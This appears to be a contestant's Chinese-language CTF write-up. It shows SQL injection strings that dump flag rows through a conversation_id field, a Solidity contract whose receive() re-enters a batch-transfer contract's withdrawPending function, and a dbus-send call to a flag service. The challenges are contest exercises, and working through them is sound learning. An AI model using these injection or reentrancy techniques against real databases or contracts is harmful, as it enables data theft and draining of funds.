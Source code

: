 问题是我并不会 SQL 注入（x），所以直接搜索 [SQL 注入的 payload](https://zh.wikipedia.org/wiki/SQL%E6%B3%A8%E5%85%A5)（没错我的 SQL 注入是现场在维基百科学的），找到了 `1' or '1'='1`，于是直接尝试，构建出以下 conversation_id：
```sql
1' or '1'='1' AND contents like '%flag%
```
于是获取到了 flag1，那么 flag2 怎么获取呢？这里我用了一个非常聪明的办法，flag1 开头是 `flag{zU1_xiA0` 那么我排除掉这些字符，剩下的 flag 就是 flag2 了（
```sql
1' or '1'='1' AND contents NOT like '%flag{zU1_xiA0%' AND contents like '%flag%
```

## 链上转账助手
### 转账失败
这道题的 flag1 拿的实在是意外，执行题目源码目录下的 `compile.py` 后，直接把 `challenge1.sol` 编译出的 bytecode 复制过去，于是就拿到 flag 1 了。

~~原理在看了官方 writeup 才明白，原来是合约默认行为是收到转账的时候会回滚~~

## 转账又失败
第二题直接 revert 不行了，于是想想别的招（

> [!NOTE]
>
> 我是真的抱着试一试的心态写出来的这一坨，没想到直接拿到 flag2 了

在 `BatchTransfer` 中发现了没用到的函数 `withdrawPending`，诶...这个函数是啥呢？要不...在 `receive` 里面调用一下这个函数试试？

```solidity
contract Hakc {
    BatchTransfer public batchTransfer;

    receive() external payable {
        batchTransfer = BatchTransfer(msg.sender);
        batchTransfer.withdrawPending();
    }
}
```

然后直接编译 Hakc 合约，拿到 flag2。

## 不太分布式的软总线
### What DBus Gonna Do?
flag1 查看源码后，发现调用 `cn.edu.ustc.lug.hack.FlagService` 的 `getFlag1` 函数并且带上 `string` 类型的 "Please give me flag1" 作为参数即可拿到 flag1：
```bash
#!/bin/bash

dbus-send --system \
          --dest=cn.edu.ustc.lug.hack.FlagService \
          --type=method_call \
          --print-reply \
          /cn/edu/ustc/lug/hack/FlagService \
          cn.edu.ustc.lug.hack.FlagService.GetFlag1 \
          string:"Please give me flag1"
```
